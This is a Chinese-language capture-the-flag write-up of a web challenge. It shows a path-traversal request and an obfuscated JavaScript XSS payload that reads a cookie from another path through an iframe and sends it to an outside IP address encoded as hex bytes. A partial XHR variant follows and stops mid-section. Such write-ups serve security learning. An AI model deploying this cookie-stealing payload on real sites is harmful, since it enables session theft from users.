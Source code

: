 提交url：

```
http://39.107.33.96:20000/index.php/view/article/705/a/..%2F..%2F..%2F
```

得到hint：

```
HINT=Try to get the cookie of path "/QWB_fl4g/QWB/"
```

### 获取不同路径cookie

当前路径是/index.php/view/article/705/a/，而要获取/QWB_fl4g/QWB/这个路径下的cookie，所以应该是设置了cookie的path属性，这两路径虽然不同，但是仍然属于同源，所以可以用iframe获取子页面document以及cookie：

```javascript
var shttp=[0x68,0x74,0x74,0x70,0x3A,0x2F,0x2F,0x31,0x30,0x33,0x2E,0x34,0x32,0x2E,0x32,0x38,0x2E,0x32,0x35,0x32,0x2F,0x62,0x2F,0x3F,0x63,0x6F,0x6F,0x6B,0x69,0x65,0x3D];

var sif=[0x69,0x66,0x72,0x61,0x6D,0x65];

var sindex=[0x2F,0x51,0x57,0x42,0x5F,0x66,0x6C,0x34,0x67,0x2F,0x51,0x57,0x42,0x2F];

var sid=[0x67,0x67];

function decode(a){
var b=[];
for (i in a){
	b=b+String.fromCharCode(a[i]);
}
	return b;
}

var iframe = document.createElement(decode(sif)); 
iframe.src=decode(sindex);
document.body.appendChild(iframe);
iframe.id=decode(sid);
iframe.onload=function(){
window.open(decode(shttp)+document.getElementById(decode(sid)).contentWindow.document.cookie);
}
```

flag:QWB{flag_is_f43kth4rpo}

### 失败思路

除了用iframe读取到子页面的cookie以外，还尝试了很多办法都没成功，如下：

#### xhr

希望通过在当前路径下的页面去请求/QWB_fl4g/QWB/页面，但是实际上我们仍然无法再头部信息或者相应中找到cookie信息，如果这个页面设置的是管理员查看可以显示flag，此法就行得通了。

```javascript
var shttp=[0x68,0x74,0x74,0x70,0x3A,0x2F,0x2F,0x31,0x30,0x33,0x2E,0x34,0x32,0x2E,0x32,0x38,0x2E,0x32,0x35,0x32,0x2F,0x62,0x2F,0x3F,0x63,0x6F,0x6F,0x6B,0x69,0x65,0x3D];
var sget=[0x47,0x45,0x54];
var sindex=[0x2F,0x51,0x57,0x42,0x5F,0x66,0x6C,0x34,0x67,0x2F,0x51,0x57,0x42,0x2F,0x69,0x6E,0x64,0x65,0x78,0x2E,0x70,0x68,0x70];

function decode(a){
var b=[];
for (i in a){
	b=b+String.fromCharCode(a[i]);
}
	return b;
}

```